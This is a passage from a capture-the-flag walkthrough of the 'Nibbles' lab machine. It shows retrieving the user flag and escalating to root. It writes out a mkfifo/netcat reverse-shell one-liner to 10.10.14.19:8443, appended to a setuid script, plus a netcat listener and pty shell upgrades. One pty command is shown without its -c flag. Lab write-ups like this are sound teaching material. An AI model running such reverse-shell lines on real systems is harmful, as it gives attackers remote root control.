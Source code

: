 ~~~sh
python3 'import pty; pty.spawn("/bin/bash")'
~~~

---

### Getting the flag

Now that we are inside the machine we can go to the user's home folder and there we will find the file containing the flag.

{{< image src="../../../nibbles-machine/22.png" alt="post exploit" position="center" style="border-radius: 8px;" >}}

---

### Privilege escalation

Inside the nibbler user's home folder there is a zip file called persona.zip.

We are going to decompress it using the unzip tool (there are others that we can use as 7z or tar to perform the same task).

If we investigate its content we will find a .sh file which listing it with the command ls -l we can see that it has the permission type 4744 (setuid permission) which allows us to run it with the privileges of the root user.

What we must do with this file is first of all to know that we must not change under any circumstances the content of it, that is why we are going to add a line of code to it which will give us another reverse shell but this time as if we were the root user. This line is called oneliner.

Inside this oneliner we must put our ip address (the one in tun0) and the port in which we are going to be listening with netcat.

---

~~~sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 8443 >/tmp/f' | tee -a monitor.sh
~~~

---

Before executing the monitor.sh file, let's remember to listen to netcat.

---

~~~sh
nc -lvnp 8443
~~~

---

Then let's run the file and we will get the reverse shell as the root user. We perform the same step as with the other reverse shell to get an enhanced shell.

---

~~~sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

---